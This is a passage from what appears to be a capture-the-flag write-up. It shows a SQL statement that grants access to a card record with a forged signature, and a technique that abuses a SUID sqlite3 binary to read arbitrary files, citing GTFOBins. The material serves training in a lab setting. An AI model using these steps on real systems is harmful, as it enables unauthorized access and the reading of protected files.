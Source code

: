
```sql
UPDATE access_cards SET access = 1, sig = '135a32d5026c5628b1753e6c67015c0f04e26051ef7391c2552de2816b1b7096' WHERE id = 42;
```

![](../../../Assets/images/act1/hardware-part-2/Pasted%20image%2020241125200101.png)
### Solution (Gold Alternative)
#### Using The Shell For Database
- Run `/usr/bin/sqlite3` as identified in [SUID Binary Listing](#find%20/%20-perm%20-u=s%20-type%20f%202>/dev/null) by passing in the file to read ([Reference](https://gtfobins.github.io/gtfobins/sqlite3/))
```bash
LFILE=FILETOREAD
/usr/bin/sqlite3 << EOF
CREATE TABLE t(line TEXT);
.import $LFILE t
SELECT * FROM t;
EOF
```

![acti-hardware-part-2-console-sqllite-read-yaml-runtoanswer.png](../../../Assets/images/act1/hardware-part-2/act-1-hardware-part-2-console-sqllite-read-yaml-runtoanswer.png)